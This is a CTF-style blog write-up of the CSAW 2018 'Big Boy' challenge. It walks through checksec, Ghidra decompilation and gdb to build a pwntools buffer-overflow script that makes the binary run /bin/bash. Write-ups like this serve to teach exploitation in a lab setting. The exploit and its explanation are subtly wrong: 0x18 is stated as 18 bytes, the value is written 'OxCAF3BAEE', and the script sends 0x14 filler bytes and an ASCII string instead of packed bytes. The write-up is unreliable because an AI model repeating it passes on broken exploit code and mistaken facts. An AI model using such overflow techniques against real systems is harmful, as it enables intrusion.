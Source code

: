 ```yaml
---
layout: post
title: CSAW 2018 Qualifiers - Big Boy
date: 2023-12-6
categories: [Binary Exploitation, Buffer Overflow]
tags: [CTF, BOF]     
---
```



This is a beginner binary exploitation challenge that serves as a good introduction to buffer overflow.

Let's start by taking a look at the file

```
 $  pwn checksec boi

[*] '/home/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It seems that we are dealing with a 64-bit binary with a non-executable stack and a stack canary. Let's try running it

```
$   ./boi

Are you a big boiiiii??
Not really
Wed Dec  6 16:45:04 EET 2023
```

The executable prompted us for input, then returned the current date and time. If we take a look at the main function in Ghidra

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 Input;
  undefined8 local_30;
  undefined4 uStack_28;
  int Target;
  undefined4 local_20;
  long StackCanary;
  
  StackCanary = *(long *)(in_FS_OFFSET + 0x28);
  Input = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  Target = -0x21524111;
  puts("Are you a big boiiiii??");
  read(0,&Input,0x18);
  if (Target == -0x350c4512) {
     run_cmd("/bin/bash");
  }
  else {
     run_cmd("/bin/date");
  }
  if (StackCanary != *(long *)(in_FS_OFFSET + 0x28)) {
                            /* WARNING: Subroutine does not return */
     __stack_chk_fail();
  }
  return 0;
}
```

We see that the code:

- initializes the integer `Target` with the value `-0x21524111` 
- prints out "Are you a big boiiiii??" using `puts()` 
- reads 18 bytes from our input
- Checks to see if the value of `Target` is `-0x350c4512`
- If true, opens a shell
- If false, prints the current date

To complete this challange, we have to overwrite the value of `Target` and set it to `OxCAF3BAEE` (the unsigned equivalent of`-0x350c4512`). That would result in the binary running `/bin/bash/`. From Ghidra, we can see where the comparison is taking place. 

![Ghidra](/assets/Image8.png)

Let's use gdb to set a breakpoint at that address, then run the binary.

```
$ gdb boi

gdb > break *0x4006a5
gdb > run
Are you a big boiiiii??
yea
```

We notice that our input is 14 bytes away from the value of `Target`.

![pwngdb](/assets/Image9.png)

We can create an exploit which will send 18 bytes (maximum we are allowed) where 14 bytes are the filler needed to reach `Target` and the last 4 bytes are `OxCAF3BAEE`, which would overwrite `0xDEADBEEF`

```python
from pwn import *

# Establish the target process
target = process('./boi')

# The payload consists of 14 filler bytes and the 4 byte integer we overwrite target with
payload = "0"*0x14 + "0xcaf3baee"

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```

